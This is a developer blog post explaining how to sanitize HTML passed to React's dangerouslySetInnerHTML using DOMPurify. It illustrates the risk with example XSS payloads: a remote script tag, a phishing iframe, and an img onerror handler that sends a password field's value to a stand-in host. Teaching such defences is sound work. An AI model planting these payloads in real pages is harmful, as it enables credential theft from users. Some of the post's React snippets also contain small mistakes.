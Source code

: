 ```yaml
---
title: Mitigate XSS exploits when using React's dangerously​SetInnerHTML
description: With the great power of dangerously​SetInnerHTML, comes great responsibility
posted: "2022-08-14"
updated: "2022-08-14"
image: https://res.cloudinary.com/dg1mbzzfx/image/upload/v1668098134/TimBryan.dev/lautaro-andreani-xkBaqlcqeb4-unsplash_hcdccc.jpg
credit:
  [
    Lautaro Andreani,
    https://unsplash.com/@lautaroandreani?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


**TL: DR;** Blinding dumping content into `dangerously​SetInnerHTML` is exactly that - dangerous. Make sure you are sanitising any input you pass to dangerously​SetInnerHTML unless you have explicit control of the input.

The following component serves as a simple example of mitigating the risk of an XSS attack via dangerously​SetInnerHTML:

```jsx title="DangerousHtml.jsx"
//https://github.com/cure53/DOMPurify
import React from "react";
import DOMPurify from "dompurify";

const sanitize = (dirty) => DOMPurify.sanitize(dirty);

const DangerousHtml = ({ innerHTML, tag }) => {
  const clean = sanitize(innerHTML);

  if (typeof tag === "undefined") {
    return <div dangerouslySetInnerHTML={{ __html: clean }} />;
  }
  return <tag dangerouslySetInnerHTML={{ __html: clean }} />;
};

export default DangerousHtml;
```

By using our bespoke `DangerousHtml` component, we can dramatically reduce the risk of an XSS exploit as we're sanitising our input before it gets to the actual `dangerously​SetInnerHTML` prop

`DOMPurify` is highly configurable too, so it might be the case that you want to have multiple components like our example to handle specific use cases or allow some of the below examples explicitly.

Below are some brief examples of how the exploits could take place:

## Exploiting iFrame and Script Tags

XSS is possible as React will not strip out the script tag which points to a malicious payload.

We really shouldn't be passing iFrames in this way either. Rather, we should pass the URL and any other "safe" attributes as a props and render it ourselves in an iFrame tag to retain control of it's rendering ability's and source, or have a dedicated iFrame component.

For example, consider rhe following malicious markup that we've received from an API request. If we blindly set it via _dangerously​SetInnerHTML_, we'll give the user this output:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hi
    <script src="https://example.com/malicious-tracking"></script>
    Fiona, here is the link to enter your bank details:
    <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
  </p>
</div>
```

However, using our DangerousHTML component instead, means that we have mitigated most of the risk the user may have faced:

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>Hi Fiona, here is the link to enter your bank details:</p>
</div>
```

Fiona may think that the website is broken or missing content for some reason - but this is still better than being phished for their bank details!

## Attribute manipulation/poisoning

Some DOM elements have special attributes that we can abuse that we should protect ourselves against.

In this example, we can run some JS on an `<image>` tag's `onerror`.

For example, given the following:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img
      src="none.png"
      onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
    />
    Sharon
  </p>
</div>
```

In this instance, our poisoned markup is stealing data from the DOM when the image request eventually fails and the user will never even know.

We can mitigate this again with our DangerousHtml component

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img src="none.png" />
    Sharon
  </p>
</div>
```

Given the argument that we may genuinely want to execute some JS to show a fallback image, we should again not be trusting raw, unsanitized HTML to do this for us and would be better served either having a `fallbackImageURL` or `onError` prop that we can explicitly add to our image tag like so:

```jsx
// Usual imports
const MyImageComponent = ({ fallbackUrl, url }) => {
  // Usual component setup

  const displayFallbackImage = (evt) => {
    // If there is no fallback, do nothing
    if (!fallbackUrl) return;

    // set the url to the fallbackUrl
    evt.target.src = fallbackUrl;
  };

  return (
    <img
      src={url}
      onerror={displayFallbackImage}
      // ... any other props
    />
  );
};
```
